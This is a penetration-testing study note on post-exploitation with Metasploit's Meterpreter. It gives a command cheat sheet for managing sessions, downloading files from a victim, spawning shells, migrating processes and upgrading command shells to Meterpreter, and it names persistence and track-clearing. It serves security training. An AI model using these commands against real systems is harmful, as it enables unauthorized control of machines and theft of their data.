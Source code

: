 # iii - Post Exploitation Fundamentals

## Meterpreter Fundamentals

**Post Exploitation**

* Post exploitation refers to the actions performed on the target system after initial access has been obtained.
* The post exploitation phase of a penetration test consists of various techniques like:
  * Local Enumeration
  * Privilege Escalation
  * Dumping Hashes
  * Establishing Persistence
  * Clearing Your Tracks
  * Pivoting

### **Meterpreter**

* The Meterpreter (Meta-Interpreter) payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system, consequently making it difficult to detect.
* It communicates over a stager socket and provides an attacker with an interactive command interpreter on the target system that facilitates the execution of system commands, file system navigation, keylogging and much more.
* Meterpreter also allows us to load custom script and plugins dynamically.
* MSF provides us with various types of meterpreter payloads that can be used based on the target environment and the OS architecture.

## **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```bash
# <command> -h for every meterpreter commands to see the corresponding flags.
meterpreter > sysinfo # info about the system
meterpreter > getuid # username info.
meterpreter > help # help menu.

# sessions management.
meterpreter > background # put session in bg or ctrl+z.
meterpreter > sessions -l # List all of your active sessions.
meterpreter > sessions -C <command> -i <sessionID> #Execute a command without having to interact with it.
meterpreter > sessions -K #Terminate all sessions
meterpreter > sessions -k <sessionID> #Terminate a particular session
meterpreter > sessions <sessionID> # Interact/switch btw session.
meterpreter > sessions -n <name> -i <sessionID> # Rename a session

# navigating in sessions.
# [W/L]-both windows and linux, [W]-windows, [L]-linux.
meterpreter > ls # List files in current directory [W/L]
meterpreter > pwd # Print the current directory [W/L]
meterpreter > cd #Change directory [W/L]
meterpreter > mkdir <name> #Create a directory [W/L]
meterpreter > rmdir <name> #Delete a directory [W/L]
meterpreter > cat <file> #Show the content of a file [W/L]
meterpreter > edit <file> #Allow to edit a file [W/L]
meterpreter > download <file> <localLocation> #Download a file.
kali@kali$ unzip flag5.zip
meterpreter > checksum md5 <file> # Get the md5 checksum of a file.
meterpreter > getenv PATH <environmentVariable> # Return environment variables [L], eg: getenv PATH, getenv TERM.
meterpreter > search -f <query> #Search for a file in the entire system.
# Use "-d" to indicate a directory in which to search. Compatible with wildcards, eg: search -d /usr/bin -f "backdoor" --> search the /usr/bin directory for a "backdoor" file.
# search -f *.jpg, *.php 

# spawning a shell on windows/linux.
meterpreter > shell #Open a shell in the target OS. Use /bin/bash -i to upgrade it to a bash prompt.
victim@shell$ ps # List all processes running on the system.
victim@shell$ ctrl+c # terminate the shell session.

meterpreter > ps # lists all processes in the target pc.
meterpreter > migrate <PID> # Migrate to another process using it's PID.
meterpreter > migrate -N <processName> # Migrate to another process using it's name.

# execute a cmd in meterpreter.
execute -f ifconfig # executes the ifconfig cmd.

# while in meterpreter you can still communicate with the local kali machine.
lpwd # print working dir of the kali pc.
lcd # change into a dir.
```
{% endcode %}



## Upgrading Command Shells to meterpreter Shells

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="true"><code class="lang-bash"><strong># method 1
</strong><strong>msf5 > use post/multi/manage/shell_to_meterpreter #Upgrade a command shell to meterpreter
</strong>
# mehod 2
msf5 > sessions -u &#x3C;sessionID> # upgrade a command shell to meterpreter.
</code></pre>



